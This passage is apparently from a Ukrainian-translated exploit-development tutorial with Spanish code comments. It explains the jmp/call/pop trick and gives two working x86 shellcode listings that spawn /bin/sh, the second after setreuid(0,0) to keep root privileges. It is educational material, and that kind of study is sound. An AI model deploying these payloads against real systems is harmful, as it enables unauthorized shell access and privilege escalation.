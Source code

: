 Для перевірки правильності викликів системи програму необхідно скомпілювати і викликати системні виклики за допомогою **strace ./COMPILIED\_PROGRAM**

При створенні shellcode можна використовувати хитрість. Перша інструкція - це стрибок до виклику. Виклик викликає оригінальний код і додає EIP до стеку. Після виклику ми додали потрібний рядок, тому з цим EIP ми можемо вказати на рядок і продовжити виконання коду.

ПРИКЛАД **ХИТРІСТЬ (/bin/sh)**:

```
jmp                 0x1f                                        ; Salto al último call
popl                %esi                                       ; Guardamos en ese la dirección al string
movl               %esi, 0x8(%esi)       ; Concatenar dos veces el string (en este caso /bin/sh)
xorl                 %eax, %eax             ; eax = NULL
movb  %eax, 0x7(%esi)     ; Ponemos un NULL al final del primer /bin/sh
movl               %eax, 0xc(%esi)      ; Ponemos un NULL al final del segundo /bin/sh
movl   $0xb, %eax               ; Syscall 11
movl               %esi, %ebx               ; arg1=“/bin/sh”
leal                 0x8(%esi), %ecx      ; arg[2] = {“/bin/sh”, “0”}
leal                 0xc(%esi), %edx      ; arg3 = NULL
int                    $0x80                         ; excve(“/bin/sh”, [“/bin/sh”, NULL], NULL)
xorl                 %ebx, %ebx             ; ebx = NULL
movl   %ebx, %eax
inc                   %eax                          ; Syscall 1
int                    $0x80                         ; exit(0)
call                  -0x24                          ; Salto a la primera instrución
.string             \”/bin/sh\”                               ; String a usar<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```

**Використання EJ за допомогою стеку (/bin/sh):**

```
section .text
global _start
_start:
xor                  eax, eax                     ;Limpieza
mov                al, 0x46                      ; Syscall 70
xor                  ebx, ebx                     ; arg1 = 0
xor                  ecx, ecx                     ; arg2 = 0
int                    0x80                           ; setreuid(0,0)
xor                  eax, eax                     ; eax = 0
push   eax                             ; “\0”
push               dword 0x68732f2f ; “//sh”
push               dword 0x6e69622f; “/bin”
mov                ebx, esp                     ; arg1 = “/bin//sh\0”
push               eax                             ; Null -> args[1]
push               ebx                             ; “/bin/sh\0” -> args[0]
mov                ecx, esp                     ; arg2 = args[]
mov                al, 0x0b                      ; Syscall 11
int                    0x80                           ; excve(“/bin/sh”, args[“/bin/sh”, “NULL”], NULL)
```
